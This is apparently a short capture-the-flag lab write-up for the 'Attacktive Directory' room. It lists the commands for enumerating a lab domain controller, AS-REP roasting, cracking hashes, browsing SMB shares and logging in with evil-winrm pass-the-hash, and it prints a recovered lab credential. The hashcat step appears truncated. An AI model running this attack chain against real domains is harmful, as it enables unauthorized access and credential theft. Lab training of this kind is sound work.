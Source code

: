 # Attacktive Directory

### Enumeration

```bash
enum4linux 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption><p>scanning port 139/445</p></figcaption></figure>

kerbrute

```powershell
 ./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.176.12  userlist.txt 
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

impacket-GetNPUsers

```bash
impacket-GetNPUsers spookysec.local/svc-admin -dc-ip 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

hashcat

```
hashcat -m 18
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

### smbclient

```
smbclient -L //10.10.176.12  -U "svc-admin"
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
smb://ip/backup
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
backup@spookysec.local:backup2517860
{% endhint %}



<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>



```bash
evil-winrm -u <user> -H "hash" -i ip
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>
